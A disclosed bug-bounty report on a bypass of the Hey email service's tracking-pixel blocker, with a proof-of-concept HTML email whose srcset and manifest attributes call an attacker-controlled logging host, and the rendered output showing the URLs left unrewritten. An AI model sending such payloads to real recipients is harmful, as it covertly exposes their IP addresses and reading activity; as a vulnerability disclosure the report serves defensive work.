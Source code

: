 # Bypass of image rewriting / tracking blocker via srcset

## Report Details
- **Report ID**: 1021885
- **URL**: https://hackerone.com/reports/1021885
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-29T15:03:39.136Z
- **Disclosed**: 2020-12-03T12:39:40.735Z

## Reporter
- **Username**: foobar7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: basecamp

## Vulnerability Information
CVSS
----

Medium 4.7 [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:N/I:L/A:N)

Description
-----------

One of the security features of Hey is blocking of [tracking pixels](https://hey.com/spy-trackers/) to preserve users privacy.

As such, `img` tags and similar are rewritten by the app to point to `gopher.hey.com`. However, an attacker can bypass this filter via the `srcset` attribute. 

POC
---

Send an email with the following code to the victim, where `example.com` is an attacker-controlled tracking server. The HTML code can for example be sent via thunderbird by clicking insert -> HTML.

    <!DOCTYPE html SYSTEM "https://example.com/log?doctype">
    <html xmlns="http://www.w3.org/1999/xhtml" manifest="https://example.com/log?html-manifest">
    <head profile="https://example.com/log?head-profile">
    </head>
    <body>
    <picture>
        <img srcset="https://example.com/log?picture-img-srcset">
    </picture>
    <img srcset=",,,,,https://example.com/log?img-srcset">
    </body>
    </html>

Open the incoming email in `https://app.hey.com`. The page will look like this:

    <html style="[...]"><head>
          <meta charset="UTF-8">
          <style>
            [...]
          </style>
          <style>@import url("https://production.haystack-assets.com/assets/message_content-1f242d41450daac108bc715557eebc198d06b738e4e50d3f1005cba03d186861.css");</style>
        </head><body><div class="message-content-inner"><div class="trix-content">
      <div class="__body">
        <p>
           <img srcset="https://example.com/log?picture-img-srcset">
          
          <img srcset=",,,,,https://example.com/log?img-srcset">
          testtest
        </p>
      </div>
    </div>
    </div></body></html>
    
It can be seen that the `srcset` attribute was not rewritten & a request will have been sent to the tracking server directly from the victim users browser.

## Impact

bypass of the img URL rewriting which prevents tracking scripts from gathering users IP addresses

## Attachments
No attachments
